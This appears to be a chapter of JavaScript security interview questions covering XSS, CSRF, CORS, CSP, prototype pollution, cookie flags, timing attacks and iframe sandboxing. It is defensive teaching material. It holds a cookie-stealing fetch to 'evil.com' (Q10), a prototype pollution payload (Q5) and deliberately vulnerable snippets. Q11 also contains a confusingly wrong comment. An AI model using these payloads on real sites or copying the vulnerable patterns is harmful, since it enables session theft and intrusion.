







# 09 — Security & Hardening
### 12 Questions | Advanced

---

**Q1. What is XSS (Cross-Site Scripting) and how do you prevent it in JavaScript?** — Hard

**Answer:**
XSS is an injection attack where malicious scripts are injected into web pages viewed by other users. The browser executes these scripts in the context of the victim's session — giving the attacker access to cookies, localStorage, DOM, and the ability to make requests as the victim.

Categories of XSS:



Prevention techniques:

1. Never use `innerHTML`, `document.write`, or `eval` with user data:
```js
// VULNERABLE:
element.innerHTML = userInput;
document.write(userInput);
eval(userInput);

// SAFE — textContent does not parse HTML:
element.textContent = userInput;
```

2. Use proper escaping for each context:
```js
// HTML context escaping:
function escapeHTML(str) {
  return str
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}

// URL context — always encode:
const safe = encodeURIComponent(userInput);

// JavaScript context — never insert user data directly into script blocks
```

3. Set a Content Security Policy header:
```
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'; object-src 'none'
```

4. Use the Sanitizer API (modern browsers):
```js
const sanitizer = new Sanitizer(); // blocks dangerous elements/attrs by default
element.setHTML(userInput, { sanitizer }); // safe innerHTML equivalent
```

5. Use Trusted Types API:
```js
// Force all dangerous sinks to use Trusted Types — no raw strings allowed:
const policy = trustedTypes.createPolicy("default", {
  createHTML: (input) => DOMPurify.sanitize(input)
});
element.innerHTML = policy.createHTML(userInput); // safe
```

**Follow-up:** What is the difference between escaping for HTML context vs JavaScript context?

In HTML context, escape `<`, `>`, `&`, `"`, `'`. In JavaScript context (e.g., data embedded in a `<script>` tag), escape for JSON: `JSON.stringify(value)` which handles quotes and special chars. In a URL context, use `encodeURIComponent`. Each context has different dangerous characters — wrong context = incomplete protection.

**GOTCHA:** `element.setAttribute("href", userInput)` can still XSS if `userInput` is `javascript:alert(1)`. Always validate URL scheme: `if (url.startsWith("https://") || url.startsWith("/")) { ... }`.

---

**Q2. What is CSRF and how does the SameSite cookie attribute protect against it?** — Hard

**Answer:**
CSRF (Cross-Site Request Forgery) tricks a logged-in user's browser into making an unintended request to a site where they are authenticated. The browser automatically sends cookies with cross-origin requests — including session cookies — so the server cannot distinguish legitimate requests from forged ones.



SameSite cookie attribute:
```
Set-Cookie: sessionId=abc; SameSite=Strict; Secure; HttpOnly

SameSite=Strict   — Cookie never sent on cross-site requests (safest, breaks OAuth flows)
SameSite=Lax      — Cookie sent on top-level navigation GET, not on sub-resource requests (modern default)
SameSite=None     — Always sent cross-site (requires Secure, needed for embedded widgets)
```

CSRF Token pattern (defense-in-depth):
```js
// Server generates a random token and stores it in the session:
app.get("/form", (req, res) => {
  const token = crypto.randomBytes(32).toString("hex");
  req.session.csrfToken = token;
  res.render("form", { csrfToken: token });
});

// Form includes the token:
// <input type="hidden" name="_csrf" value="{{ csrfToken }}">

// Server validates the token on state-changing requests:
app.post("/transfer", (req, res) => {
  if (req.body._csrf !== req.session.csrfToken) {
    return res.status(403).send("CSRF validation failed");
  }
  // Proceed with transfer
});
```

**Follow-up:** Does `SameSite=Lax` fully protect against CSRF?

For most cases, yes — it prevents cross-site POST requests from including the cookie. But it does NOT protect GET endpoints that perform state changes (a security design flaw on the server). Always make state-changing endpoints use POST/PUT/DELETE, and use `SameSite=Strict` for the highest security.

**GOTCHA:** `SameSite=Lax` became the browser default in Chrome 80 (2020). Older browsers do not understand the attribute at all and treat the cookie as `SameSite=None`. Always set the attribute explicitly rather than relying on defaults.

---

**Q3. What is the Same-Origin Policy (SOP) and how does CORS relax it?** — Hard

**Answer:**
The Same-Origin Policy is a browser security model that prevents JavaScript from making requests to a different origin than the one that loaded the current page. An origin is the combination of protocol, host, and port — all three must match.



CORS (Cross-Origin Resource Sharing) is a server-side mechanism to opt-in to allowing specific cross-origin requests. The server adds headers that tell the browser which origins are permitted.

Simple CORS response:
```
Access-Control-Allow-Origin: https://trusted-app.com
Access-Control-Allow-Methods: GET, POST
Access-Control-Allow-Headers: Content-Type, Authorization
```

Preflight requests (for non-simple requests):
```js
// Browser automatically sends OPTIONS preflight before:
// - PUT, PATCH, DELETE requests
// - Requests with Authorization header
// - Requests with Content-Type: application/json

// Server must respond to OPTIONS:
app.options("/api/data", (req, res) => {
  res.header("Access-Control-Allow-Origin", "https://trusted-app.com");
  res.header("Access-Control-Allow-Methods", "GET, POST, PUT, DELETE");
  res.header("Access-Control-Allow-Headers", "Content-Type, Authorization");
  res.header("Access-Control-Max-Age", "86400"); // Cache preflight for 24h
  res.sendStatus(204);
});
```

Credentials with CORS:
```js
// Client side — must explicitly opt-in:
fetch("https://api.example.com/data", { credentials: "include" });

// Server must respond with BOTH:
// Access-Control-Allow-Origin: https://specific-origin.com (NOT *)
// Access-Control-Allow-Credentials: true
// Cannot use wildcard * when credentials are included
```

**GOTCHA:** CORS is enforced by the BROWSER — it does not protect server-to-server communication. An attacker using `curl` or a Node.js fetch bypasses CORS entirely. CORS only protects against browser-based attacks where the victim's browser enforces the policy.

---

**Q4. What are Trusted Types and how do they eliminate DOM XSS?** — Hard

**Answer:**
Trusted Types is a browser API that enforces a "no raw strings in dangerous sinks" policy. It requires that values assigned to XSS-dangerous properties go through a registered policy that sanitizes them — making DOM XSS structurally impossible to introduce accidentally.

Dangerous sinks that Trusted Types can protect:


```js
// Enable via CSP header:
// Content-Security-Policy: require-trusted-types-for 'script'

// Create a sanitizing policy:
const sanitizePolicy = trustedTypes.createPolicy("sanitize-html", {
  createHTML: (dirtyHtml) => {
    // Use DOMPurify or any sanitizer:
    return DOMPurify.sanitize(dirtyHtml, { RETURN_TRUSTED_TYPE: true });
  },
  createScript: (dirtyScript) => {
    throw new Error("Scripts not allowed");
  },
  createScriptURL: (url) => {
    if (!url.startsWith("https://cdn.mycompany.com/")) {
      throw new Error("Only approved CDN URLs allowed");
    }
    return url;
  }
});

// After enabling Trusted Types — this THROWS a TypeError:
element.innerHTML = userInput; // TypeError: This document requires Trusted Types for HTML

// Must go through the policy:
element.innerHTML = sanitizePolicy.createHTML(userInput); // safe
```

Default policy (catches third-party library violations):
```js
trustedTypes.createPolicy("default", {
  createHTML: (s) => DOMPurify.sanitize(s)
  // 'default' policy is used when raw strings are passed to sinks without explicit policy
});
```

**GOTCHA:** Trusted Types enforcement breaks third-party libraries that use `innerHTML` internally (like some old versions of React, jQuery, or UI frameworks). You must audit all your dependencies for dangerous sink usage before enabling enforcement. Start with `report-only` CSP mode to identify violations without breaking anything.

---

**Q5. What is prototype pollution and how does it work?** — Hard

**Answer:**
Prototype pollution is a class of vulnerability where an attacker can add or modify properties on `Object.prototype` (or other built-in prototypes) through user-controlled input, affecting all objects in the application that inherit from that prototype.

```js
// Vulnerable pattern — merging user-controlled data:
function merge(target, source) {
  for (const key in source) {
    target[key] = source[key]; // DANGEROUS if key is "__proto__"
  }
  return target;
}

// Attack payload:
const maliciousPayload = JSON.parse('{"__proto__": {"isAdmin": true}}');
merge({}, maliciousPayload);

// Now ALL objects in the application have isAdmin: true via prototype:
const user = {};
user.isAdmin; // true — prototype polluted!

// Authentication bypass:
if (user.isAdmin) {
  grantAdminAccess(); // Attacker wins
}
```

Real-world attack vector — nested merge from URL/JSON input:
```js
// API receives: { "a": { "__proto__": { "polluted": true } } }
// Deep merge recursively processes nested keys including __proto__
```

Prevention techniques:
```js
// 1. Check for dangerous keys:
function safeMerge(target, source) {
  for (const key in source) {
    if (key === "__proto__" || key === "constructor" || key === "prototype") {
      continue; // Skip dangerous keys
    }
    if (typeof source[key] === "object") {
      target[key] = target[key] || {};
      safeMerge(target[key], source[key]);
    } else {
      target[key] = source[key];
    }
  }
}

// 2. Use Object.create(null) for dictionaries — no prototype to pollute:
const safe = Object.create(null);
safe.__proto__; // undefined — no prototype chain at all

// 3. Use hasOwnProperty guard:
if (Object.prototype.hasOwnProperty.call(source, key)) { ... }

// 4. Use Map instead of plain objects for user-controlled data:
const data = new Map();
data.set("__proto__", "harmless"); // Map keys are just keys, no prototype involvement

// 5. Freeze Object.prototype:
Object.freeze(Object.prototype); // Prevents any future pollution
```

**Spec Reference:** The `__proto__` getter/setter is defined in the spec as a legacy extension on `Object.prototype` for web compatibility.

**GOTCHA:** Many popular libraries have had prototype pollution vulnerabilities: lodash's `merge`, jQuery's `extend`, and others. Always validate and sanitize deeply nested objects from external sources. `JSON.parse` itself is safe — it does not execute prototype setters — but subsequent operations on the parsed object may not be.

---

**Q6. What is `eval` and why is it dangerous? What are the safe alternatives?** — Medium

**Answer:**
`eval(string)` executes the string as JavaScript code in the current scope. It is dangerous for multiple reasons:



```js
// DANGEROUS uses:
eval(userInput);                    // XSS if userInput from user
eval("let x = " + someVar);        // Arbitrary execution
setTimeout("alert(1)", 0);         // setTimeout with string = eval
new Function("return " + expr)();  // Also eval-like

// Safe alternatives:
// Instead of eval for JSON:
JSON.parse(jsonString);             // Use JSON.parse

// Instead of eval for math expressions:
// Use a math parser library (mathjs, expr-eval)
import { evaluate } from "mathjs";
evaluate("2 + 3 * 4"); // 14

// Instead of eval for dynamic key access:
const key = "name";
obj[key];                           // Bracket notation — no eval needed

// Instead of setTimeout string:
setTimeout(() => alert(1), 0);     // Always use function

// Instead of new Function for templates:
// Use template literals or a template engine
```

`eval` with a string in a different scope (indirect eval):
```js
// Direct eval — has access to local scope:
function bad() {
  const local = 42;
  eval("console.log(local)"); // 42 — can access local
}

// Indirect eval — runs in global scope only:
const indirectEval = eval;
function better() {
  const local = 42;
  indirectEval("console.log(typeof local)"); // "undefined" — no local access
}
```

**GOTCHA:** `new Function(code)` is also eval — it creates a function from a string. It runs in global scope (safer than direct `eval` for scope leakage) but still executes arbitrary code. Content Security Policy `script-src 'unsafe-eval'` is required for both `eval` and `new Function` — if your CSP does not include it, both throw a CSP violation.

---

**Q7. What is the Subresource Integrity (SRI) attribute and how does it work?** — Medium

**Answer:**
SRI is a browser security feature that validates that third-party resources (scripts, stylesheets from CDNs) have not been tampered with by checking their cryptographic hash against one you specify.

```html
<!-- SRI on a CDN script: -->
<script
  src="https://cdn.jsdelivr.net/npm/lodash@4.17.21/lodash.min.js"
  integrity="sha384-4xzr4xiaahisavdOr38ULlapi86421YRs+8khb0ob+pi59T7AXmlgSkojkcsng"
  crossorigin="anonymous">
</script>
```

How it works:
1. You compute `sha384` (or `sha256`/`sha512`) hash of the exact file content.
2. You embed that hash in the `integrity` attribute.
3. The browser downloads the resource and computes the same hash.
4. If hashes match — execute. If they do not match — block and console-error.

Generating the hash:
```bash
# Using openssl:
cat lodash.min.js | openssl dgst -sha384 -binary | openssl base64 -A

# Or using the srihash.org tool
# Or using webpack/rollup SRI plugin for build-time generation
```

```js
// Programmatic SRI hash generation (Node.js):
const crypto = require("crypto");
const fs = require("fs");

function generateSRI(filePath, algorithm = "sha384") {
  const content = fs.readFileSync(filePath);
  const hash = crypto.createHash(algorithm).update(content).digest("base64");
  return `${algorithm}-${hash}`;
}

console.log(generateSRI("./lodash.min.js")); // sha384-XXXXXX
```

**Follow-up:** Does SRI protect against runtime-injected scripts?

No. SRI only validates files at load time. If a CDN delivers the correct file initially but later serves a compromised version, SRI will catch it on the next page load. But SRI cannot protect against scripts injected into an already-running page via XSS.

**GOTCHA:** SRI requires `crossorigin="anonymous"` on the element when the resource is cross-origin — because SRI requires the browser to inspect the full response body, which requires CORS. Without `crossorigin="anonymous"`, the SRI check fails with an opaque response.

---

**Q8. What is Content Security Policy (CSP) and what are its key directives?** — Hard

**Answer:**
CSP is an HTTP response header (or `<meta>` tag) that tells the browser which sources of content are legitimate. It is the most powerful defense against XSS by restricting what scripts, styles, images, and other resources can be loaded or executed.

Key directives:
```
Content-Security-Policy:
  default-src 'self';              -- fallback for all resource types not specified
  script-src 'self' 'nonce-abc';   -- scripts: only same-origin + specific inline (nonce)
  style-src 'self' 'unsafe-inline'; -- styles: same-origin + inline (risky but common)
  img-src 'self' data: https:;     -- images: same-origin, data URIs, any https
  connect-src 'self' https://api.myapp.com; -- fetch/XHR: same-origin + API
  font-src https://fonts.gstatic.com; -- fonts from Google
  object-src 'none';               -- no plugins (Flash etc.)
  base-uri 'self';                 -- prevent base tag hijacking
  frame-ancestors 'none';          -- prevent clickjacking (same as X-Frame-Options)
  upgrade-insecure-requests;       -- auto-upgrade http to https
  require-trusted-types-for 'script'; -- enable Trusted Types
```

Nonce-based CSP (most secure for inline scripts):
```js
// Server generates a cryptographic nonce per request:
const nonce = crypto.randomBytes(16).toString("base64");
res.set("Content-Security-Policy", `script-src 'nonce-${nonce}'`);

// HTML uses the same nonce:
// <script nonce="{{ nonce }}">
//   // Only this script block is allowed — static, server-generated nonce
// </script>
```

Report-only mode (audit without enforcing):
```
Content-Security-Policy-Report-Only: default-src 'self'; report-to /csp-violations
```

**GOTCHA:** `'unsafe-inline'` in `script-src` defeats the primary XSS protection of CSP. If you must allow inline scripts, use nonces or hashes instead. Also, `'unsafe-eval'` allows `eval()` and `new Function()` — only include it if absolutely necessary.

---

**Q9. What is clickjacking and how does `X-Frame-Options` / `frame-ancestors` prevent it?** — Medium

**Answer:**
Clickjacking is an attack where an attacker embeds a victim website inside a transparent iframe on their own page. The victim's UI is overlaid on top of the attacker's content — the user thinks they are clicking on the attacker's interface but actually clicking on the victim's (authenticated) UI.



Prevention — server headers:

Old method: `X-Frame-Options` (supported everywhere but limited):
```
X-Frame-Options: DENY              -- never allow framing
X-Frame-Options: SAMEORIGIN       -- only same origin can frame
X-Frame-Options: ALLOW-FROM https://trusted.com  -- specific origin (deprecated)
```

Modern method: CSP `frame-ancestors` (more powerful, replaces X-Frame-Options):
```
Content-Security-Policy: frame-ancestors 'none'
Content-Security-Policy: frame-ancestors 'self'
Content-Security-Policy: frame-ancestors https://trusted-partner.com
```

JavaScript framebusting (fallback for older browsers):
```js
// Old technique — unreliable but still seen:
if (window !== window.top) {
  window.top.location = window.location; // redirect parent to our page
}
// Modern attackers can sandbox the iframe: <iframe sandbox> blocks this
```

**GOTCHA:** `frame-ancestors` takes precedence over `X-Frame-Options` in browsers that support CSP Level 2+. Use both headers for maximum compatibility. `frame-ancestors` is also more flexible — it supports multiple origins, wildcards, and scheme-based matching.

---

**Q10. What is `HttpOnly` and `Secure` cookie flags and why are they critical?** — Medium

**Answer:**
Cookie security flags control how browsers handle cookies, significantly reducing their attack surface.

`HttpOnly` flag:
- Prevents client-side JavaScript from accessing the cookie via `document.cookie`.
- The cookie is sent in HTTP requests but never accessible to scripts.
- Mitigates cookie theft via XSS — even if an attacker can run scripts, they cannot read the session cookie.

```
Set-Cookie: sessionId=abc; HttpOnly; Secure; SameSite=Strict

// Result — JavaScript cannot access it:
document.cookie; // "" — HttpOnly cookies do not appear here
fetch("/api").then(...); // But the browser still sends sessionId header automatically
```

`Secure` flag:
- The cookie is ONLY sent over HTTPS connections, never over HTTP.
- Prevents session hijacking on unencrypted networks (coffee shop Wi-Fi).

`__Host-` prefix (strongest security):
```
Set-Cookie: __Host-session=abc; Secure; Path=/; HttpOnly
// Requirements enforced by browser:
// - Must have Secure flag
// - Must be sent from HTTPS
// - Must not have Domain attribute (prevents subdomain access)
// - Must have Path=/
```

Cookie theft without HttpOnly:
```js
// XSS payload can steal cookies without HttpOnly:
fetch(`https://evil.com/steal?cookie=${document.cookie}`);
// With HttpOnly, this returns "" — session cookie not visible
```

**Follow-up:** If `HttpOnly` prevents JS from reading cookies, how does token-based auth (JWT in localStorage) compare?

JWT in `localStorage` is accessible to JavaScript — meaning any XSS can steal it. But it is not automatically sent on every request (mitigates CSRF). `HttpOnly` cookies are invisible to JS (mitigates XSS theft) but auto-sent on every request (requires CSRF protection). The safest approach: `HttpOnly` + `SameSite=Strict` cookies for session, plus CSRF tokens.

**GOTCHA:** `Secure` flag only means "send only over HTTPS" — it does NOT encrypt the cookie value. The session token in a `Secure` cookie is still stored in plaintext on disk and accessible to the OS and other browser processes.

---

**Q11. What is a timing attack and how do `crypto.timingSafeEqual` / constant-time comparison help?** — Hard

**Answer:**
A timing attack exploits the fact that string comparison in most languages short-circuits on the first mismatched character. By measuring response times precisely, an attacker can determine how many characters they guessed correctly, enabling them to brute-force secrets one character at a time.

```js
// VULNERABLE — short-circuit comparison:
function checkToken(expected, provided) {
  return expected === provided;
  // If expected = "secret123" and provided = "wrong456":
  // Compares 'w' vs 's' — mismatch, returns false in ~1ns
  // If provided = "secre0000":
  // Compares 5 chars before mismatch — takes ~5ns
  // Attacker measures timing differences to learn the secret character by character
}

// SAFE — constant-time comparison:
const { timingSafeEqual } = require("crypto");

function checkTokenSafe(expected, provided) {
  const expectedBuf = Buffer.from(expected, "utf8");
  const providedBuf = Buffer.from(provided, "utf8");

  // Must be same length first — timing comparison of different lengths reveals length info:
  if (expectedBuf.length !== providedBuf.length) {
    return timingSafeEqual(expectedBuf, expectedBuf); // compare with itself (false is returned via HMAC)
    // Better: use HMAC comparison (see below)
  }

  return timingSafeEqual(expectedBuf, providedBuf);
}

// Even better — HMAC comparison (handles length differences safely):
function verifyToken(secret, provided, expected) {
  const hmacProvided = crypto.createHmac("sha256", secret).update(provided).digest();
  const hmacExpected = crypto.createHmac("sha256", secret).update(expected).digest();
  return timingSafeEqual(hmacProvided, hmacExpected);
  // HMAC output is always same length — safe to compare
}
```

**Follow-up:** Is timing attack practical in real-world web applications?

Over the internet, timing attacks are harder due to network jitter — but within a data center or on localhost, the precision is sufficient. For API token validation, CSRF token checks, and password comparison (before hashing), always use constant-time comparison. Many real-world breaches have used timing attacks on internal services.

**GOTCHA:** `crypto.timingSafeEqual` requires both buffers to have the same length, or it throws. Always normalize to the same length before comparing — the HMAC pattern above is the standard way to handle this safely.

---

**Q12. What is the `sandbox` attribute on iframes and what does it restrict?** — Medium

**Answer:**
The `sandbox` attribute on `<iframe>` applies a set of restrictions to the framed content, limiting what it can do. Without the attribute, embedded content runs with full permissions.



```html
<!-- Fully sandboxed — no scripts, no forms, isolated origin: -->
<iframe src="untrusted.html" sandbox></iframe>

<!-- Allow only specific things: -->
<iframe
  src="user-content.html"
  sandbox="allow-scripts allow-forms"
></iframe>

<!-- DANGEROUS combination — allow-scripts + allow-same-origin defeats sandbox: -->
<!-- The page can script itself and access same-origin data -->
<iframe sandbox="allow-scripts allow-same-origin" src="untrusted.html"></iframe>
<!-- Attacker's JS can remove the sandbox attribute from within the iframe! -->
```

Programmatic sandbox (Content Security Policy sandbox directive):
```
Content-Security-Policy: sandbox allow-scripts
```
This applies sandbox restrictions to the current page itself, not just iframes.

**GOTCHA:** Never combine `allow-scripts` and `allow-same-origin` in the sandbox attribute for untrusted content. An embedded script can access `frameElement.removeAttribute("sandbox")` and completely remove its own sandbox restrictions — defeating the entire protection.

---

*Next: [10-Modules-Bundling.md](./10-Modules-Bundling.md)*
